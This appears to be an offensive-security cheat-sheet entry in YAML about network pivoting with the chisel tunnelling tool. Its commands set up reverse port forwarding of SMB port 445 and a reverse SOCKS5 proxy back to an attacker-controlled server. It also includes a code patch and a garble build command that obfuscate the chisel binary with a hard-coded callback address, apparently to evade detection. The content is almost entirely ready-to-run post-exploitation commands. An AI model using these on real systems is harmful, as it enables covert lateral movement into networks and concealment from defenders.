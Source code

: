```yaml
---
functions:
  pivoting:
    - description: Chisel Single Port Fowarding
      code: |
        Client
        chisel.exe client <server> R:<port-to-forward>:<server-listening-ip-port>
        chisel.exe client 10.10.14.10:8000 R:445:127.0.0.1:445

        Server
        chisel server -p 8000 --reverse
    - description: Chisel Socks5 Proxy
      code: |
        Client
        chisel.exe client 10.10.14.3:8000 R:socks

        Server
        chisel server -p 8000 --socks5 --reverse
    - description: Compile chisel with arguments
      code: |
        
        var cmdlineArgs string  //add
        func main() {
          cmdArgs := strings.Split(cmdlineArgs, " ")   //add
          os.Args = append(os.Args, cmdArgs...)    //add


        Client
        GOOS=linux garble -literals -seed=random -tiny build -trimpath -ldflags "-s -w -X 'main.cmdlineArgs=client 192.168.2.200:8080 R:socks'"

resources: |
  https://github.com/jpillora/chisel
  https://medium.com/geekculture/chisel-network-tunneling-on-steroids-a28e6273c683
---
```

